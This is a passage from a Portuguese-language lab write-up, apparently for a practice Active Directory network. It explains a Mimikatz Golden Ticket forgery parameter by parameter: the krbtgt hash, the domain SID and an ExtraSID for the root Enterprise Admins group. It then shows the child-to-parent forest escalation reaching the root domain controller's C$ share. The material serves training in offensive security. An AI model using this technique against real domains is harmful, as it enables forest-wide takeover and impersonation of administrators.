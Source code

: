 ```
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ corp.thereserve.loc' successfully submitted for current session
```

| Parâmetro                                             | Explicação                                                                                                                                                                                       |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `kerberos::golden`                                    | Indica ao Mimikatz que será gerado um **Golden Ticket** (TGT forjado).                                                                                                                           |
| `/user:Administrator`                                 | Usuário que você está fingindo ser. Aqui, está forjando um ticket para o `Administrator`.                                                                                                        |
| `/domain:corp.thereserve.loc`                         | Nome FQDN do **domínio filho** (onde o ticket será reconhecido como legítimo).                                                                                                                   |
| `/sid:S-1-5-21-170228521-1485475711-3199862024`       | SID do **domínio filho (CORP)**, necessário para gerar um ticket válido.                                                                                                                         |
| `/service:krbtgt`                                     | Nome do serviço (fixo para Golden Ticket, pois usamos o hash da conta `krbtgt`).                                                                                                                 |
| `/rc4:0c757a3445acb94a654554f3ac529ede`               | Hash **NTLM da conta `krbtgt`** do domínio `CORP`. É a chave usada para assinar o TGT.                                                                                                           |
| `/sids:S-1-5-21-1255581842-1300659601-3764024703-519` | SID adicional (ExtraSID). Nesse caso, é o **SID do grupo Enterprise Admins do ROOT**. Com isso, você se apresenta como se fosse EA do domínio pai (ROOT), mesmo estando no domínio filho (CORP). |
| `/ptt`                                                | "Pass the Ticket" → O ticket será automaticamente **injetado na sessão atual**, sem salvar em arquivo `.kirbi`.                                                                                  |

**O que está acontecendo?**
Você está criando e injetando um **Golden Ticket** forjado para o usuário `Administrator` do domínio `corp.thereserve.loc`, **com um SID extra** que pertence ao grupo Enterprise Admins do domínio pai (`root.thereserve.loc`).

Com esse ticket, você **passa a ser reconhecido como Enterprise Admin na floresta inteira**, mesmo que o ticket seja do domínio filho.

```
PS C:\Users\Administrator> dir \\rootdc.thereserve.loc\c$

    Directory: \\rootdc.thereserve.loc\c$
    
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/14/2018   6:56 AM                EFI
d-----        5/13/2020   6:58 PM                PerfLogs
d-r---         9/7/2022   4:58 PM                Program Files
d-----         9/7/2022   4:57 PM                Program Files (x86)
d-r---         9/7/2022   4:55 PM                Users
d-----         9/7/2022   7:39 PM                Windows
-a----         4/1/2023   4:10 AM            427 adusers_list.csv
-a----        3/17/2023   6:18 AM             85 dns_entries.csv
-a----        4/15/2023   8:52 PM        3162859 EC2-Windows-Launch.zip
-a----        4/15/2023   8:52 PM          13182 install.ps1
-a----        4/15/2023   8:51 PM           1812 thm-network-setup-dc.ps1
```

## 12.7 Movimentação Lateral no Domínio ROOTDC
